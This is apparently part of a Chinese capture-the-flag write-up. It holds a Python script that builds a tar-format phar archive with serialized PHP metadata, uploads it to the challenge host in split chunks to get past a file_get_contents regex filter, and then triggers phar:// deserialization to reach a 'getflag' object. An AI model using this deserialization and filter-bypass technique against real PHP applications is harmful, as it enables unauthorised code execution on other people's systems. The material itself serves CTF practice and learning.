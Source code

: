 ## 脚本2 - 绕过file_get_contents正则

只是少了gzip的部分。

```python
import shutil
import tarfile
import os.path
import gzip
import requests


def make_tarfile(output_filename, source_dir):
    os.system(f'tar -cf app.tar {source_dir}')


def init():
    for f in ['app.tar', 'app.tar.gz', '.phar']:
        try:
            shutil.rmtree(f)
        except OSError:
            pass
    os.mkdir('.phar')
    open('.phar/.metadata', 'w').write("""a:2:{i:0;O:7:"getflag":0:{}i:0;N;}""")


if __name__ == "__main__":
    init()
    make_tarfile('app.tar', '.phar')

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
    file = open('app.tar', 'rb').read()
    data = {"0[]": [
        file[:1],
        file[1:]
    ]} # 数组会把每个都写入的, 分段内容
    requests.post(url, data=data)

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    res = requests.post(url, data=data)
    open('f.html', 'wb').write(res.content)
```